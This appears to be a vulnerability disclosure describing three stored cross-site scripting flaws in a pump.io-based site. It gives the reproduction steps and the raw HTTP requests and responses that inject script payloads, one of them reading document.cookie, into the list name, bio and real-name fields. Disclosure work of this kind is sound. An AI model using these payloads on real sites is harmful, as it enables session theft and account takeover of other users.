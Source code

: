 
### Stored XSS #1

https://datamost.com/USERNAME/lists

- Vulnerable parameter "Name"

To Replicate Findings:
  

1. Login to account
2. Go to Lists page
3. Select New List
4. Select "Name" 
4. Add XSS payload "><script>alert(document.cookie)</script> 


```
// HTTP POST request with XSS payload

POST /api/user/<USERNAME>/feed/minor HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

{"verb":"create","object":{"objectType":"collection","objectTypes":["person"],"displayName":"\"><script>alert(document.cookie)</script>","content":"test"}}


// HTTP response showing unsanizited XSS payload

HTTP/1.1 200 OK
X-Powered-By: Express
Vary: X-HTTP-Method-Override, Accept-Encoding
Server: pump.io/5.1.0 express/4.16.2 node.js/v6.17.1
[...]

{"verb":"create","object":{"objectType":"collection","objectTypes":["person"],"displayName":"\"><script>alert(document.cookie)</script>","content":";"test",
[...]
```
  

### Stored XSS #2

https://datamost.com/main/settings

- Vulnerable parameter "Bio"

To Replicate Findings:

1. Login to account
2. Go to settings page
3. Select "Bio" 
4. Add XSS payload "><script>alert(`xss`)</script>
  

```
// HTTP POST request with XSS payload

PUT /api/user/test1231123123123/profile HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

"pump_io":{"followed":false},"location":{"objectType":"place","displayName":"\"test"},"summary":"\"><script>alert(`bio_xss`)</script>"[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
X-Powered-By: Express
Server: pump.io/5.1.0 express/4.16.2 node.js/v6.17.1
[...]

"location":{"objectType":"place","displayName":"\"><script>alert(`bio_xss`)</script>"}
[...]


// HTTP GET request to feed page

GET /api/user/<USERNAME>/feed/minor?since=<URL_MODIFIED> HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

"location":{"objectType":"place","displayName":"\"><script>alert(`xss`)</script>"}
[...]
```

  
  
### Stored XSS #3

https://datamost.com/main/settings


- Vulnerable parameter "Real Name"

To Replicate Findings:

1. Login to account
2. Go to settings page
3. Select "Real Name"
4. Add XSS payload "><script>alert(`xss`)</script>


```
// HTTP POST request with XSS payload

PUT /api/user/test1231123123123/profile HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


{"preferredUsername":"test1231123123123","url":"https://datamost.com/test1231123123123","displayName":"\"><script>alert(1)</script>"
[...]
```
  

